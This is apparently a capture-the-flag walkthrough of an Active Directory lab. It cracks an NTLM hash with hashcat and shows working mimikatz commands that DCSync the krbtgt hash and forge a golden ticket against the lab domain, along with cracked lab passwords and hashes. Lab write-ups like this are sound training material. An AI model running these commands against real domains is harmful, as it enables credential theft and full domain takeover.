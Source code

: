 
### What is the Machine1 Password?

Copy NTLM hash from mimikatz oneliner result

```bash
echo '64f12cddaa88057e06a81b54e73b949b' > h
hashcat h /opt/wordlists/rockyou.txt -m 1000
```

> Password1


### What is the Machine2 Hash?

Tmux search is the best

> c39f2beb3d2ec06a62cb887fb391dee0


## Golden Ticket Attacks w/ mimikatz
---

### Dcync

Get krbtgt hash for later use to craft golden ticket

> **Notice**
> **Domain admin or DCSync permission is needed**
{: .prompt-tip }

```bash
Invoke-Mimikatz -Command '"token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt"'
```

AES 256 HMAC Hash

> `8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d`


### Craft Golden Ticket With Mimikatz

> https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
> https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket

> ****4 values are required to craft golden tickets****
> - Domain User to impersonate
> - Domain Name
> - Domain SID (can get with `whoami /user`)
> - KRBTGT hash
{: .prompt-tip }

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-849420856-2351964222-986696166 /aes256:8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d /groups:500,501,513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
